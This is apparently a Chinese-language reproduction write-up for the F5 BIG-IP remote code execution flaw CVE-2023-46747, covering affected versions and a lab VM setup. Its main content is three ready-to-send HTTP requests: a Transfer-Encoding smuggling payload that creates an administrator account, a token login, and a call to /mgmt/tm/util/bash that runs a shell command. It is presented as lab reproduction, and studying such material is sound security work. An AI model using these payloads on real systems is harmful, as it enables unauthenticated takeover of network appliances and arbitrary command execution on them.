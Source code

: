 ## F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)

## 漏洞描述

**F5 BIG-IP 远程代码执行漏洞(CVE-2023-46747)**，未经授权的远程攻击者通过管理端口或自身IP地址访问BIG-IP系统，利用此漏洞可能绕过身份认证，导致在暴露流量管理用户界面（TMUI）的 F5 BIG-IP 实例上执行任意代码。

## 影响版本

```
F5 BIG-IP <= 17.1.0
16.1.0 <= F5 BIG-IP <= 16.1.4
15.1.0 <= F5 BIG-IP <= 15.1.10
14.1.0 <= F5 BIG-IP <= 14.1.5
13.1.0 <= F5 BIG-IP <= 13.1.5
```

## 环境下载

```
https://my.f5.com/manage/s/downloads?productFamily=BIG-IP&productLine=big-ip_v15.x&version=15.1.8&container=Virtual-Edition&files=BIGIP-15.1.8-0.0.7.ALL-vmware.ova&locations=JAPAN

链接：https://pan.baidu.com/s/1zLMXJCKtZtzIxCQGoxwPgg 
提取码：ksdn 
```

搭建方式很简单，下载BIGIP-15.1.8-0.0.7.ALL-vmware.ova，接着用vm打开ova即可

搭建过程 [F5 WMware虚拟机环境搭建-BIG-IP Virtual Edition 11.3.0-CSDN博客](https://blog.csdn.net/ice_age1/article/details/49998059)

重置web密码

```
进入tmsh模式 敲击
modify auth user admin password admin
```

搭建成功页面



## 漏洞复现

### 第一步 发送 TMUI模块的请求

当发送到F5 BIG-IP TMUI模块的请求（例如登陆页面/tmui/login.jsp）中，包含一个类似值为 "xxx, chunked" 的 "Transfer-Encoding" 头，并且请求体内容满足特定内容时，漏洞会被触发。

&name=admin&name_before=&passwd=admin789456 参数填入账户密码

```
POST /tmui/login.jsp HTTP/1.1
Host: 192.168.127.146
Content-Type: application/x-www-form-urlencoded


204		
HTTP/1.1/tmui/Control/form	127.0.0.1	localhost	localhostPTmui-DubbufBBBBBBBBBBB
REMOTEROLE0�	localhostadminq_timenow=a&_timenow_before=&handler=%2ftmui%2fsystem%2fuser%2fcreate&&&form_page=%2ftmui%2fsystem%2fuser%2fcreate.jsp%3f&form_page_before=&hideObjList=&_bufvalue=eIL4RUnSwXYoPUIOGcOFx2o00Xc%3d&_bufvalue_before=&systemuser-hidden=[["Administrator","[All]"]]&systemuser-hidden_before=&name=admin&name_before=&passwd=admin789456&passwd_before=&finished=x&finished_before=�
0
```

![](./assets/20231031212344495.png)



### 第二步 获取用户token

```
POST /mgmt/shared/authn/login HTTP/1.1
Host: 192.168.127.146
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

 {"username":"admin", "password":"admin789456"}
```

![](./assets/20231031212450387.png)



### 第三步 执行命令

将获取到得token带入`X-F5-Auth-Token`中，在通过`/mgmt/tm/util/bash` 执行命令

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.127.146
Connection: keep-alive
Content-Length: 22
X-F5-Auth-Token:ICGZXJJROASFRPWYZF3EAQFCGN

 {"command":"run","utilCmdArgs":"-c whoami"}
```

![](./assets/20231031212657529.png)



### 参考链接

```
https://github.com/projectdiscovery/nuclei-templates/blob/56d79688e0d2ebce5b8939961946f4f32e663700/http/cves/2023/CVE-2023-46747.yaml
https://mp.weixin.qq.com/s/wUoBy7ZiqJL2CUOMC-8Wdg
https://blog.csdn.net/ice_age1/article/details/49998059
```

